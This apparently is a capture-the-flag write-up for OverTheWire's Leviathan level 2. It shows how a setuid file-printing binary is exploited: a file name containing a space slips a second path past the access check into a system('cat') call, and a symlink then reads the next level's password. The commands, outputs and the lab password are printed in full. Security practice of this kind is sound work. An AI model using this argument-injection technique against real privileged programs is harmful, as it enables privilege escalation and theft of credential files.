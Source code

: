 # OverTheWire Wargames

## Leviathan Level 2 --> Level 3
There is no information for this level, intentionally. 

### Solution
See files in home directory, there is setuid executable
```bash
leviathan2@leviathan:~$ ls
printfile
leviathan2@leviathan:~$ file printfile
printfile: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=46891a094764828605a00c0c38abfccbe4b46548, not stripped
```

Try this setuid
```console
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```
```console
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2
__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)              = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
geteuid()                                                = 12002
geteuid()                                                = 12002
setreuid(12002, 12002)                                   = 0
system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 0
+++ exited (status 0) +++
```

It check access first then make string contain cat command + distenation, so we must make file pass access point then link it with leviathan3 pass file
```console
leviathan2@leviathan:~$ mkdir /tmp/levi2
leviathan2@leviathan:~$ cd /tmp/levi2
leviathan2@leviathan:/tmp/levi2$ touch a
leviathan2@leviathan:/tmp/levi2$ touch b
leviathan2@leviathan:/tmp/levi2$ touch "a b"
leviathan2@leviathan:/tmp/levi2$ ls
a  a b  b
```
```console
leviathan2@leviathan:/tmp/levi2$ ln -s /etc/leviathan_pass/leviathan3 
bleviathan2@leviathan:/tmp/levi2$ ls
a  a b  b
```


Now try setuid file 
```console
leviathan2@leviathan:/tmp/levi2$ ~/printfile "/tmp/levi2/a b"
Ahdiemoo1j
```
*(it check "a b" file access then print a then b (we link it before with leviathan3))*


### Password
> Ahdiemoo1j

